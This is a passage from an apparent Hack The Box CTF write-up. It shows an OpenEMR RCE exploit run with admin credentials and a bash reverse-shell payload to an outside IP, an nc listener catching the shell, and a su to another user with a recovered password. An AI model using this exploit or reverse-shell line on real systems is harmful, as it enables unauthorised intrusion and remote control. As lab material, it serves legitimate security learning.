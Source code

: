```

root@kali# python ./openemr-rce.py -u openemr_admin -p xxxxxx -c 'bash -c "bash -i >& /dev/tcp/10.10.14.47/443 0>&1"' http://hms.htb                                                                
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload

```

It just hangs like this, but in a new window, I’ve got a shell:

```

root@kali# nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.188.
Ncat: Connection from 10.10.10.188:57446.
bash: cannot set terminal process group (2167): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cache:/var/www/hms.htb/public_html/interface/main$

```

## Priv: www-data –> ash

With the creds I found earlier for the webpage (H@v3\_fun), I can `su` to ash:

```

www-data@cache:/var/www/hms.htb/public_html/interface/main$ su - ash
Password: 
ash@cache:~$

```

And get `user.txt`:

```

ash@cache:~$ cat user.txt
dba76925************************

```
